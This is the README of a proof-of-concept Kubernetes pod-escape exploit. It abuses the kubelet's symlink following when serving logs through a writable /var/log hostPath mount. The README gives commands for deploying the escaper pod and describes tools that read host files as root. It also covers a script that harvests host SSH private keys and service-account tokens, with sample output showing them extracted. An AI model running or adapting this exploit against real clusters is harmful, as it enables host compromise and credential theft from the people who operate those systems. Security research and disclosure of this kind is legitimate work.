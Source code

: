 # Kubelet Exploit For /var/log Mount

Kube-pod-escape is a POC for the an exploit on the symlink following behaviour of logs files serving in the kubelet, in addition with a pod that has a write hostPath mount to /var/log.  
This POC shows the outcome of a pod which uses that mount, and how it can escape to the host machine.  
Further read on this discovery can be done on the following: <link_to_blog>

This repository contains all files and related code for running this exploit.  


## Prerequisites
A Kubernetes cluster, 
Without restriction for retrieving logs with `kubectl logs <pod>`


## Run the exploit

First, create the pod by:
    
```bash
$ kubectl create -f pods/
pod/escaper created
```

After the pod was created, exec into the escaper pod.
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh
Usage: [cath|lsh] <host_path>
```
### lsh
Works like ls, but using root access on the host machine.
### cath
Works like cat, but using root access on the host machine.

Example:
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ lsh /proc
1/
10/
10034/
10042/
10047/
....
```

## Extract Sensitive Data
In addition to the given lsh and cath commands, Inside the `~/exploit` folder, there's a python script, which automatically locates and downloads private key files from the host, as well as kubernetes service account tokens.  
_(to find tokens, the script searches the /var/lib/kubelet/pods folder. this way it can read the mounted .token files for each pod that runs on the host)_

## Run the script
```bash
$ kubectl exec -it escaper bash
➜ root@escaper:~/exploit$ python find_sensitive_files.py
[*] Got access to kubelet /logs endpoint
[+] creating symlink to host root folder inside /var/log
[*] fetching token files from host
[+] extracted hostfile: /var/lib/kubelet/pods/6d67bed2-abe3-11e9-9888-42010a8e020e/volumes/kubernetes.io~secret/metadata-agent-token-xjfh9/token
[*] fetching private key files from host
[+] extracted hostfile: /home/ubuntu/.ssh/private.key
```
Token Files are downloaded to: `/root/exploit/host_files/tokens`  
Key Files are downloaded to: `/root/exploit/host_files/private_keys`

